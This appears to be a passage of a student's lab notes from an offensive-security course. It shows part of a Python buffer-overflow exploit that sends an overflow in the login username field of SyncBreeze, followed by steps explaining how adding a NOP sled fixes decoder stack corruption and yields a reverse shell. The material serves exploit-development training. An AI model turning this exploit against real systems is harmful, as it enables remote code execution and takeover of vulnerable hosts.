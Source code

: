 ```python
  
  content = "username=" + inputBuffer + "&password=A"

  buffer = "POST /login HTTP/1.1\r\n"
  buffer += "Host: 192.168.233.10\r\n"
  buffer += "User-Agent: Mozilla/5.0 (X11; Linux_86_64; rv:52.0) Gecko/20100101 Firefox/52.0\r\n"
  buffer += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
  buffer += "Accept-Language: en-US,en;q=0.5\r\n"
  buffer += "Referer: http://192.168.233.10/login\r\n"
  buffer += "Connection: close\r\n"
  buffer += "Content-Type: application/x-www-form-urlencoded\r\n"
  buffer += "Content-Length: "+str(len(content))+"\r\n"
  buffer += "\r\n"
  
  buffer += content

  s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
  
  s.connect(("192.168.233.10", 80))
  s.send(buffer)
  
  s.close()
  
  print "\nDone did you get a reverse shell?"
  
except:
  print "\nCould not connect!"
```

2.  Attempt to execute your exploit without using a NOP sled and observe the decoder corrupting the stack.
Without the NOP sled we can see that we encounter an access violation due to a number of bytes close to the ESP being mangled.
![[mangled_shellcode.png]]

The GetPC routine execution changes a few bytes of the encoder itself (and possibly the shellcode) which eventually results in a crash.

3.  Add a NOP sled to your PoC and obtain a shell from SyncBreeze.

Once 10 NOPs are added we immediately get a reverse shell.

![[nops_added.png]]

![[buffer_rev_shell.png]]

# 11.2.15 - Improving the Exploit
#### Exercises

_(To be performed on your own Kali and Windows lab client machines - Reporting is required for these exercises)_
